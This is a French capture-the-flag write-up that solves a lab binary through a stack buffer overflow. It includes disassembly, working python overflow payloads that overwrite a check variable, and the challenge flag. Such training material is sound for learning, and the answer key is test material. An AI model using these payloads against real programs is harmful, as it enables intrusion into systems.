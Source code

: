 ### Challsys (system) : easy

#### Description

You have the binary named "chall". Find a way to retrieve the flag.
We also provide a part of the source code:

```
/*
**************
 Missing code
**************
*/

  int check = 0x12345678;
  char buffer[30];
  fgets(buffer,40,stdin);
  printf("[check] 0x%x\n", check);

/*
**************
 Missing code
**************
*/
```

The source code is compiled using this command `gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 chall.c -o chall`.

#### To run

```
docker pull mbeldi/challsys
docker run -d -p 32700:22 --name <container_name> --previleged mbeldi/challsys
ssh thc18@localhost -p 32700 (password: thc18)
```

#### Write-up

Pour pouvoir résoudre ce challenge, il faut tout d'abord remarquer dans le bout de code fourni comme indice que le code est vulnérable face à une attaque du type *buffer overflow* au niveau du tableau `buffer` où on est en train de lire 40 caractères alors que sa taille est 30 on peut donc faire une attaque pour changer la valeur de `check`.

On peut essayer d'abord d'exécuter la commande `$ strings chall` où on peut trouver un autre indice, `pass: f00df00d`. Cet indice permet de connaitre qu'il y a un pass qui a comme valeur `f00df00d` mais il faut savoir maintenant si ce pass est la valeur à essayer pour résoudre le challenge.

Comme on ne connait pas le code source, on essaie de comprendre le fichier binaire. On peut maintenant utiliser gdb en exécutant `$ gdb ./chall` puis désassembler le main du binaire.

```
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048511 <+0>:	push   ebp
   0x08048512 <+1>:	mov    ebp,esp
   0x08048514 <+3>:	sub    esp,0x38
   0x08048517 <+6>:	mov    DWORD PTR [ebp-0x4],0xf00df00d
   0x0804851e <+13>:	mov    DWORD PTR [ebp-0x8],0x8048660
   0x08048525 <+20>:	mov    DWORD PTR [ebp-0xc],0x12345678
   0x0804852c <+27>:	mov    eax,ds:0x804a030
   0x08048531 <+32>:	mov    DWORD PTR [esp+0x8],eax
   0x08048535 <+36>:	mov    DWORD PTR [esp+0x4],0x30
   0x0804853d <+44>:	lea    eax,[ebp-0x2a]
   0x08048540 <+47>:	mov    DWORD PTR [esp],eax
   0x08048543 <+50>:	call   0x80483b0 <fgets@plt>
   0x08048548 <+55>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804854b <+58>:	mov    DWORD PTR [esp+0x4],eax
   0x0804854f <+62>:	mov    DWORD PTR [esp],0x804866f
   0x08048556 <+69>:	call   0x80483a0 <printf@plt>
   0x0804855b <+74>:	cmp    DWORD PTR [ebp-0xc],0xf00df00d
   0x08048562 <+81>:	jne    0x8048570 <main+95>
   0x08048564 <+83>:	mov    DWORD PTR [esp],0x8048680
   0x0804856b <+90>:	call   0x80483c0 <puts@plt>
   0x08048570 <+95>:	mov    eax,DWORD PTR [ebp-0x4]
   0x08048573 <+98>:	mov    DWORD PTR [esp],eax
   0x08048576 <+101>:	call   0x80484fd <getFood>
   0x0804857b <+106>:	cmp    eax,DWORD PTR [ebp-0xc]
   0x0804857e <+109>:	jne    0x8048598 <main+135>
   0x08048580 <+111>:	mov    DWORD PTR [esp],0x80486be
   0x08048587 <+118>:	call   0x80483c0 <puts@plt>
   0x0804858c <+123>:	mov    DWORD PTR [esp],0x80486d9
   0x08048593 <+130>:	call   0x80483d0 <system@plt>
   0x08048598 <+135>:	mov    DWORD PTR [esp+0x4],0x80486e2
   0x080485a0 <+143>:	lea    eax,[ebp-0x2a]
   0x080485a3 <+146>:	mov    DWORD PTR [esp],eax
   0x080485a6 <+149>:	call   0x8048390 <strcmp@plt>
   0x080485ab <+154>:	test   eax,eax
   0x080485ad <+156>:	jne    0x80485bb <main+170>
   0x080485af <+158>:	mov    DWORD PTR [esp],0x80486ec
   0x080485b6 <+165>:	call   0x80483c0 <puts@plt>
   0x080485bb <+170>:	mov    eax,0x0
   0x080485c0 <+175>:	leave
   0x080485c1 <+176>:	ret
End of assembler dump.
```

Pour commencer l'analyse, normalement on cherche directement l'opération `cmp` permettant de faire une vérification/comparaison.
On peut constater qu'il y a 3 vérifications dans le code, deux opération `cmp` et une opération `test` (`strcmp`).
* `cmp DWORD PTR [ebp-0xc],0xf00df00d` : on compare la valeur située à l'adresse `ebp-0xc` (la variable `check`) avec `0xf00df00d`
* `cmp eax,DWORD PTR [ebp-0xc]` : on compare la valeur du registre `eax` (qui contient la valeur retournée par la fonction `getFood`) avec la valeur située à l'adresse `ebp-0xc` (la variable `check`)
* `test eax,eax` : on vérifie si la valeur du registre `eax` est égale à 0 (`eax` contient la valeur retournée par la fonction `strcmp`)

On peut tester ensuite chaque vérification.
```
python -c "print 'A'*30 + '\x0d\xf0\x0d\xf0'" | ./chall
[check] 0xf00df00d
You're getting on the right way but you're missing something!
```

Cela permet de remplir le buffer par des 'A' et affecter à la variable check la valeur hexa `0xf00df00d`. D'après le message, on est sur le bon chemin mais il y a un truc qui nous échappe.

On continue ensuite à tester la vérification suivante. Il faut analyser alors la fonction `getFood` afin de connaître la valeur retournée par cette fonction. Faites attention, cette fonction prend un paramètre situé à l'adresse `ebp-0x4` (qui contient la valeur `0xf00df00d`).

```
(gdb) disas getFood
Dump of assembler code for function getFood:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	and    DWORD PTR [ebp+0x8],0xf001b001
   0x08048507 <+10>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804850a <+13>:	xor    eax,0x445f0410
   0x0804850f <+18>:	pop    ebp
   0x08048510 <+19>:	ret    
End of assembler dump.
```

On voit que la fonction fait une opération `and` entre la valeur passée en paramètre `0xf00df00d` et la valeur `0xf001b001`, puis une opération `xor` entre le résultat et la valeur `0x0x445f0410`. En calculant ça, on obtient ce resultat

```
$ python
>> hex(0xf00df00d & 0xf001b001)
'0xf001b001'
hex(0x445f0410 ^ 0xf001b001)
'0xb45eb411'
```

On essaye donc
```
$ python -c "print 'A'*30 + '\x11\xb4\x5e\xb4'" | ./chall
You Win! Congratulations!!
THC18{space_controller}
```

Voilà, on réussit le challenge. Le flag est `THC18{space_controller}`.

